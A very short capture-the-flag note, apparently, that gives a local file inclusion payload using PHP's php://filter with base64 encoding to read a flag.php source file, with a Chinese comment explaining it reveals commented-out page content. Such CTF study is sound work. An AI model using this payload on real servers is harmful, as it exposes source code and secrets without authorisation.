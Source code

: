secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php

//用来查看php伪协议：显示网页上被注释的内容（flag）
